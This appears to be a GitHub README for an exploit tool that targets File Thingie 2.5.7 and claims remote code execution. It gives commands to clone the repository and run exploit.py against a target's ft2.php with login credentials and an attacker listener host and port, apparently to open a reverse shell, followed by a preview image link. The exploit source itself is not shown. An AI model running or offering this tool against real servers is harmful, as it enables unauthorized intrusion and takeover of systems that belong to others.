 # File-Thingie
File Thingie 2.5.7 - Remote Code Execution (RCE)


```
git clone https://github.com/NketiahGodfred/File-Thingie.git
cd File-Thingie
python3 exploit.py -t http://<ip>/ft2.php -u username -p password -L <lhost> -P <lport>
```


![filethings Preview](https://raw.githubusercontent.com/NketiahGodfred/writeup-images/main/filethings-1.png)
